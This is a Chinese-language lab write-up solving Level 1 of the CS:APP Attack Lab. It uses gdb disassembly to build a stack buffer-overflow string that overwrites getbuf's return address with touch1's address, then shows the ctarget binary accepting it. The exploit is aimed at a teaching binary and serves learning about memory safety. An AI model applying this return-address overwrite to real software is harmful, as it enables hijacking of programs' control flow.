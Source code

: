 # Attack Lab

## 介绍

对2个有不同安全漏洞的程序进行5次攻击，完成后你将会收货：

- 学会针对缓冲区溢出漏洞进行攻击。
- 学会如何将程序写的更加安全，了解操作系统和编译的特征使程序出现更少的漏洞。
- 对x86-64机器代码的堆栈和参数传递有更深的理解。
- 对x86-64机器指令解码有更深的理解。
- 对gdb工具的熟练使用。

[实验帮助文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)

## Part I: Code Injection Attacks

前三个阶段利用**漏洞利用**字符串攻击`CTarget`。

### Level1

阶段1不需要代码注入，相反使用**漏洞利用**字符串就可以重定向程序执行另一现有程序。

`getbuf`函数在`CTarget`中被`test`函数被调用。

![](https://s3.ax1x.com/2021/01/02/rzfeat.png)

`getbuf`函数返回后会接着执行第5句代码，现在我们想改变这个行为。

![](https://s3.ax1x.com/2021/01/02/rzfaGT.png)

你的任务是改变程序执行方向，在`getbuf`函数返回后执行`touch1`函数。请注意，您的**漏洞利用**字符串可能还会破坏与该阶段不直接相关的堆栈部分，但这不会引起问题，因为`touch1`会导致程序直接退出。

思路是我们将`touch1`的起始地址的字节序列转为字符串后复写在返回地址在堆栈的位置。

首先我们使用反汇编查看一下`getbuf`和`touch1`函数。

```bash
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
End of assembler dump.
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```

字符串的地址是`%rsp-0x28`，`getbuf`函数的返回地址是在`%rsp`。我们只需将`touch1`的地址`0x4017c0`写在返回地址即可。

构造字符串字节序列。

```bash
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # 0x28的空间
c0 17 40 00 00 00 00 00 # touch1函数的地址 / retq的返回地址
```

注意字节排列需要还与机器的**大小端**有关。我这里使用的机器是小端模式（数据的高字节保存在内存的高地址中）。

我们再使用`hex2raw`工具将字节序列转为字符串。

```bash
./hex2raw < attack1.txt > attackraw1.txt
```

接着拿我们得到的字符串去做检测。

```bash
root@5139ac651595:/csapp/target1# ./ctarget -q -i attackraw1.txt
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

